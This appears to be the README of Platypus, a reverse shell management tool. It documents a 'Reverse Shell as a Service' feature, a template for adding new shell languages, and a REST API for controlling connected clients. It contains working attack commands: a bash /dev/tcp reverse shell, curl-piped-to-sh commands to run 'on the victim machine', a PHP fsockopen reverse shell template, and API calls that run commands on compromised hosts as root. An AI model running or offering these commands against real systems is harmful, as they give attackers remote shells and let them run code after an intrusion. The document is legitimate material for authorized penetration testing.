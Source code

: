 ## Reverse shell as a Service

> NOTICE: ONLY WORKS on *NIX

Platypus is able to multiplex the reverse shell listening port. Port 8080 can receive reverse shell client connection, also there is a Reverse Shell as a Service (RaaS) running on this port.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.

To archive this, all you need is to construct a URL that indicates the target.

The command `bash -c "bash -i >/dev/tcp/5.6.7.8/1337 0>&1"` is the equivalent of `curl http://1.2.3.4:1337/5.6.7.8/1337 | sh`, this feature provides the capability to redirect a new reverse shell to another IP and port without remembering the boring reverse shell command.

If you just want to pop up a reverse shell to the listening port of platypus, the parameter (`1.2.3.4/1337`) can be omitted.

Once the command gets executed, the reverse shell session will appear in platypus which is listening on `1.2.3.4:1337`.

### Quick start

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337 | sh` on the victim machine

### Specifying language of reverse shell command (default: bash)

Also, you can specify the specific language of creating a reverse shell. All available languages are listed at [templates](https://github.com/WangYihang/Platypus/tree/master/lib/runtime/template/rsh)

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/python | sh` on the victim machine

### What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/5.6.7.8/7331/python | sh` on the victim machine

### How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",__PORT__);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

Then you should use `go-bindata` to add the template file as an asset of Platypus by typing the following command.

```
go get -u github.com/go-bindata/go-bindata/...
go-bindata -pkg resource -o ./lib/util/resource/resource.go ./lib/runtime/...
```

## RESTful API

* `GET /client` List all online clients

```
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "192.168.1.3:54798"
    ],
    "status": true
}
```

* `POST /client/:hash` execute a command on a specific client

```
# curl -X POST 'http://127.0.0.1:9090/client/0723c3bed0d0240140e10a6ffd36eed4' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```

* How to hash?

```
# echo -n "192.168.1.3:54798" | md5sum
0723c3bed0d0240140e10a6ffd36eed4  -
```
